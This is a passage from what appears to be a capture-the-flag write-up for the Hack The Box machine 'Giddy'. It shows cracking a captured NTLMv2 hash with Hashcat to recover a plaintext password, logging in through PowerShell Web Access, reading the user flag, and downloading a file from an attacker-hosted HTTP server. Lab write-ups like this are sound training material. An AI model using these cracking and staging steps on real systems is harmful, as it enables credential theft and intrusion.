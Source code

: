 ```
[*] Closing down connection (10.10.10.104,50145)
[*] Remaining connections []
```

What we are seeing there is an NTLMv2 hash for the Stacy user. From here we can try to crack it, or perform a pass the hash attack directly to gain user access to the box.

The machine did also have port 3389 open for RDP which can be vulnerable to pass the hash attacks, but in this case we are unable to log in as Stacy through RDP, so we move on to cracking the hash.

As you know, we are not huge fans of JTR, so we will use Hashcat to crack it:
```
C:\Crackers\hashcat-5.1.0>hashcat64.exe -m 5600 hash.txt rockyou.txt
...
STACY::GIDDY:1122334455667788:3c3bf3394ffb2a1291342af4fbf90929:01010000000000002856d319eea9d401e0668ce2380298f60000000002000a0053004d0042003100320001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d004200310032000800300030000000000000000000000000300000de9a843d3d71d47d4a99a4e34cb7ca74ea18bbb1e2251d867498486d2b63b8f90a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0035000000000000000000:xNnWo6272k7x
...
```

The syntax is the same on Linux (just without the .exe). We get a hit and have some creds. stacy:xNnWo6272k7x

Now we need to figure out what to do with these credentials... Remembering back we had another website with a login form in the `/remote` directory. We should try the credentials there. Browsing over HTTP we get an error message that the site requires a secure connection so we swap over to https://10.10.10.104/remote and we are now able to use the login form:

![230719605.png]({{site.baseurl}}/Images/Giddy/230719605.png)

Once we log in we are presented with a Windows PowerShell Web Access session.

Finally we are on the box as user, and can read the user.txt flag:
```
PS C:\users\stacy\Documents> cd ../desktop
PS C:\users\stacy\desktop> cat user.txt
10C1C[redacted]C1A0AD
PS C:\users\stacy\desktop> 
```

To test what we are capable of, we can try to download a file from our attacking machine and go from there:

Host a test text file with `SimpleHTTPServer` and see if we can download it somewhere.
```
PS C:\users\stacy\desktop> cd ../Downloads
PS C:\users\stacy\Downloads> Invoke-WebRequest "http://10.10.14.18/thoseguys.txt" -OutFile "C:\users\stacy\Downloads\thoseguys.txt"  
PS C:\users\stacy\Downloads> dir
    Directory: C:\users\stacy\Downloads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        1/9/2019  10:56 PM               1 thoseguys.txt                                          

PS C:\users\stacy\Downloads> 
```
